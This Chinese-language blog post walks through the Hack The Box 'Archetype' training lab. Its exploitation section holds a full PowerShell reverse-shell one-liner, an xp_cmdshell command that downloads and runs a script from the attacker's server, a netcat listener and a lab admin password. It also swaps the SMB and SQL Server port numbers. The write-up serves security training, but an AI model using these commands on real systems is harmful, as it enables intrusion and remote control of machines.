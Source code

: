 ```yaml
---
layout: post
title:  "[Starting Point]Archetype"
date:   2021-02-01 11:30:00 +0800
categories: HTB
---
```


## 前言

心血来潮想试试一些国外的CTF网站试试，然后想起来HTB一直都没有开始，于是在B站看了一下视频打算上手玩一下。

## 准备

账号的获取不用多说，网上教程有一大堆，我这里简单讲一下openvpn，这个东西是在linux命令行里面直接跑的，在HTB获取`example.ovpn`的pack之后，直接:

```bash
openvpn <example.ovpn> 
```

最后检查一下能不能ping通那个IP

自己的IP也会变，会被分配一个虚拟网卡

![Snipaste_2021-02-01_11-53-48](..\images\Snipaste_2021-02-01_11-53-48.jpg)

## 信息收集

我做的这个是HTB的新手教程靶机，每一步都有tutorial，因此只要跟着步骤来就可以了

首先是nmap扫描IP的端口

这里用到的命令是

```bash
nmap -sS -sC -sV -T4 -vv <指定IP>
```

用这个可以探测到端口的服务

最后把得到的信息收集起来

```
opened ports:
445
135
139
1433
Host script results:
|_clock-skew: mean: 2h56m05s, deviation: 3h34m41s, median: 1h20m05s
| ms-sql-info: 
|   10.10.10.27:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 53066/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 42521/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 45578/udp): CLEAN (Failed to receive data)
|   Check 4 (port 48474/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery: 
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: Archetype
|   NetBIOS computer name: ARCHETYPE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-01-31T19:06:00-08:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-02-01T03:06:03
|_  start_date: N/A
```

## 漏洞探测

由于445(SQL Server)和1433(SMB)端口被打开，那么首先从这两个端口入手

![Snipaste_2021-02-01_12-00-12](..\images\Snipaste_2021-02-01_12-00-12.jpg)

## 漏洞利用

可以连接backups，进去之后用get下载里面的文件

![Snipaste_2021-02-01_12-01-53](..\images\Snipaste_2021-02-01_12-01-53.jpg)

可以得到SQL Server的账号密码

使用impactet工具集访问SQL Server

```bash
python3 mssqlclient.py ARCHETYPE/sql_svc@<IP> -windows-auth
```

之后输入密码 连接上SQL Server，依次执行如下命令

```bash
 EXEC sp_configure 'Show Advanced Options', 1; 
 reconfigure; 
 sp_configure; 
 EXEC sp_configure 'xp_cmdshell', 1 
 reconfigure; 
 xp_cmdshell "whoami" 
```

可以发现已经拿到了一个简单的命令执行

试着反弹shell

创建shell.ps1

```powershell
 $client = New-Object System.Net.Sockets.TCPClient("<你的IP>",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close() 
```

然后打开自己的服务器

```bash
 python3 -m http.server 80 
```

打开nc 开启443端口监听

```bash
 nc -lvnp 443
```

修改入网规则

```bash
 ufw allow from 10.10.10.27 proto tcp to any port 80,443 
```

在SQL Server中执行反弹shell命令

```bash
xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://<你的IP>/shell.ps1\");" 
```

![Snipaste_2021-02-01_12-35-24](..\images\Snipaste_2021-02-01_12-35-24.jpg)

成功反弹回来，这里可以拿到user的flag

![Snipaste_2021-02-01_12-36-36](..\images\Snipaste_2021-02-01_12-36-36.jpg)

使用下面的命令访问PowerShell历史记录文件。

```powershell
type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt 
```

得到管理员密码

```powershell
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
exit
```

使用impacket的psexec.py拿到win的管理员权限shell

这里有个坑，直接执行example下面的文件会提示缺少包，需要把包复制一份导入到example中才行

![Snipaste_2021-02-01_12-42-06](..\\images\Snipaste_2021-02-01_12-42-06.jpg)

最后在Desktop处拿下root的flag

结束！